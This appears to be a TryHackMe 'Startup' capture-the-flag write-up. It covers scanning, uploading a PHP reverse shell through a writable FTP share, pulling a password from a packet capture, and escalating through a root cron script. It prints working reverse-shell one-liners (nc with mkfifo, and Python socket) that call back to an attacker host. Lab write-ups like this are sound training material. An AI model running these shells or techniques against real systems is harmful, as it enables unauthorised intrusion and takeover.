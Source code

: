 ```yaml
---
title: Startup
date: 2022-07-06 17:00:00 +500
categories: [THM, easy machines]
tags: []    # TAG names should always be lowercase
---
```


![](https://i.ibb.co/zxb3d2j/spicesmall.png)

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!


### What is the secret spicy soup recipe?

Let's start with a Nmap scan

```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.16.11
```

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 60
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

so we have a web page with a message that there is no spice. I'll let a gobuster scan run, while I check the FTP server. `gobuster dir -u http://10.10.16.11 -w /usr/share/dirb/wordlists/common.txt -x .php`

In the FTP server, it admits anonymous login, and we have two files:

notice.txt
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I don't know who it is, but Maya is looking pretty sus.
```
Maya is a potential username.

and important.jpg which is an among us meme photo.

notice how the FTP folder is writable.


now let's come back to the gobuster scan, and we have something: `/files`{: .filepath} which if we notice is the FTP server. Since we have writing permissions on the FTP server and we have access via the web server, let's try to upload a [reverse shell](https://github.com/cotes2020/jekyll-theme-chirpy/fork) and execute it from the webserver.

So now you'll have to be on the directory where you have the reverse shell and connect to the FTP server, go to the folder that we have writing permission, now to upload a file to an FTP server with "`put` [file name]", in this case, `put reverseshell.php`.

now let's set up a listener that will receive the shell connection request.

```terminal
nc -lvpn [the port you choose on the reverseshell]
```

and finally, let's head over to the webpage and execute the file we just upload. It worked! now we have a shell on the target's machine.

listing the directory we have recipe.txt

>

### What are the contents of user.txt?

Enumerating a little the system, we see that there's a user 'lennie'. After a while of looking around, I wasn't able to find anything, so I'll try to use [linPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). I'll make a Python server on my machine with `python3 -m http.server` then on the target's machine `wget [your IP]:[PORT]/linpeas.sh`, and now run it with `bash ./linpeas.sh`.

after trying without luck, some exploits, I see this directory "/incidents/suspicious.pcapng", actually a few times during the linpeas execution, this is a format used to record captured network packet traces to a file, so let's see if we find anything interesting.

transfer it to your local machine with a Python server.

let's open the file with wireshark and analyze it, the last http request has a directory to a revershell apparently.
"[Request URI: http://192.168.33.10/files/ftp/shell.php]" someone that entered the system the same way we did.

let's export it all into a text file, so it's easier to read the content 'file -> Export Packet Dissections > as plain text' and see what's in it (I know this is not the best way but will do it) notice how every Linux command is after a hex direction and before that there's a number like '0000' or '0020' i was looking after those, looking what commands this person entered, and after a 'sudo -l' is prompted for a password and there's a password in the next packet, I thought it was www-data password but it was actually Lennie's password.

now we can use a more stable shell and login with ssh to the user Lennie.

and in his home directory is the flag user.txt

> 

### What are the contents of root.txt?

In Lennie's directory there's a "scripts" folder, in it it has a script that put the variable $LIST into the "startup_list.txt", first I thought there was going to be a crontab that executes this and may be vulnerable, but no. The files also are owned by root and are no writable, except for "/etc/print.sh".

let's try to put a reverse shell and execute it

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 1234 >/tmp/f`
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.26.231",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

`bash /etc/print.sh`

It worked, and we got root! But not because I executed it. When I ran it, I got an error, so it must be a crontab from the root user, for sure.

now that we are root we can cat the root flag

>
